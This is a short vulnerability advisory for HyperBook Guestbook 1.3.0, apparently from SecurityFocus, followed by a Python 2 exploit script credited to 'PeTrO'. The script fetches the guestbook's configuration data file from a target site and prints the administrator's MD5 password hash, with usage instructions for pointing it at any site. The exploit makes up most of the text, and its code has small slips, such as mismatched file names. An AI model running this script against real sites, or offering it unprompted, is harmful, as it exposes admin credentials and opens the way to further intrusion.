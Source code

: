 source: http://www.securityfocus.com/bid/22754/info

HyperBook Guestbook is prone to an information-disclosure vulnerability because the application fails to protect sensitive information.

An attacker can exploit this issue to access sensitive information that may lead to other attacks.

This issue affects version 1.3.0; other versions may also be affected.

#!/usr/bin/python
#Script                  :HyperBook Guestbook v1.30 (qbconfiguration.dat) Remote Admin md5 Hash Exploit
#Exploit Coded by        : PeTrO
#Exploit Discovered by   : SaO [www.saohackstyle.com]
#Credits to              :[soulreaver],Kuzey
 

import urllib
import sys
import parser

serv=&#34;http://&#34;
i=0
for arg in sys.argv:
     i=i+1

if i!=3:
 print &#34;&#34;&#34;\n\n
         \tHyperBook Guestbook v1.30  (qbconfiguration.dat) 
         \t\t    Remote Admin md5 Hash Exploit 
          \t                            
          \tUsage:Exploit.py [targetsite] [path] 
          \tExample:Exploit.py www.target.com /guestbook/\n\n&#34;&#34;&#34;
else:
    

    adres=sys.argv[1]
    path=sys.argv[2]

    str1=adres.join([serv,path])
    str2=str1.join([&#39;&#39;,&#39;data/gbconfiguration.dat&#39;])

    print &#34;\n[~]Connecting...&#34;
    url=urllib.urlopen(str2).read(); 
    print &#34;\n[+]Connected!&#34;
 
    test=url.find(path);

    t=0;
    print &#34;\n\t\t\t-=[Admin md5 hash]=-&#34;
    while(url[test+1]!=1): #parsing hash... by PeTrO..
              print url[test],

              if(url[test]==&#39;\n&#39;):
                 t=t+1;  

              if(t==2):
                 break;
                
              test=test+1;

    print &#34;\n\n\t\t\t[ c0ded by PeTrO ]&#34;